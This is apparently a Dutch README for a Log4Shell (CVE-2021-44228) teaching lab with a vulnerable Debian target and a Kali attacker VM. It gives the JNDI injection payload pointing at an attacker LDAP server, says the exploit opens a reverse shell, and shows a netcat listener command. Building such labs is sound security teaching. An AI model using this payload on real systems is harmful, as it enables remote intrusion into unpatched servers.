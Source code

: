 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Installatie script target VM (https://raw.githubusercontent.com/DenzelBasteleus/VmSoftware/refs/heads/main/vm_softwaredebian.sh)

### Stappen:
Open op je VM een terminal, je zal zien dat in je home directory een file CyberSec25 aanwezig is.
```bash
cd CyberSec25/scripts
chmod +x setup_target.sh
sudo ./setup_target.sh
```
Het script zal de nodige libraries installeren om een jetty webapplicatie op te stellen.

Deze wordt vervolgens gehost op: [http://localhost:8080].

Je target VM is opgezet.

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Installatie script attacker VM (https://raw.githubusercontent.com/DenzelBasteleus/VmSoftware/refs/heads/main/vm_softwareLinux.sh)

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```
Browse via je webbrowser naar de webapplicatie van je target VM.

Dit is normaal gezien <<target VM IP>>:8080

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```
- jndi = een Java API waarmee je objecten kunt opzoeken
- ldap:// = het protocol
- 10.0.2.5 = IP van de aanvaller / LDAP-server
- :1389 = standaard poort voor LDAP
- /a = zoekpad of zoek-id in de LDAP-directory

De exploit zal een reverse-shell starten vanop de target VM.
Hiervoor moeten we een listener opzetten:
```bash
nc -lvnp 4444
```
---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── test_payload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
